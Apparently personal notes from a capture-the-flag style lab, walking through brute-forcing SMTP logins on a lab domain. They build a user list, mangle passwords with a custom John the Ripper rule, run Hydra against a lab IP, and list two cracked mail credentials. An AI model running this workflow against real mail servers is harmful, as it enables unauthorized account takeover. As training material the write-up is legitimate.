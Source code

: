 
### Create a file with the names (users.txt)
**Note: Return at the end of each line.****
antony.ross	 
ashley.chan	
brenda.henderson	 
charlene.thomas 
christopher.smith 
emily.harvey 
keith.allen	 
laura.wood
leslie.morley	 
lynda.gordon	 
martin.savage	 
mohammad.ahmed	 
paula.bailey	 
rhys.parsons	 
roy.sims 

### Domain
Add domain to end of every name.

```
sed -i 's/$/@corp.thereserve.loc/' users.txt
```

![[Brute force SMTP-20240518134435690.webp]]
### Custom rules
- Add the following to the bottom of john.conf

```
	#Custom Rules

	[List.Rules:Capstone]

	Az"[0-9]" $[!@#%^]
```

- Run the following command to create a mangled passwords file.
```
john --wordlist=password_base_list.txt --rules=Capstone --stdout > mangled-passwords.txt

```

### HYDRA
Getting some email's credentials.

```
hydra -L users.txt -P mangled-passwords.txt smtp://10.200.103.11 -V -o smtp-results.txt

cat smtp-results.txt
```

![[Brute force SMTP-20240518135026786.webp]]

login: laura.wood@corp.thereserve.loc   
password: Password1@

login: mohammad.ahmed@corp.thereserve.loc   
password: Password1!
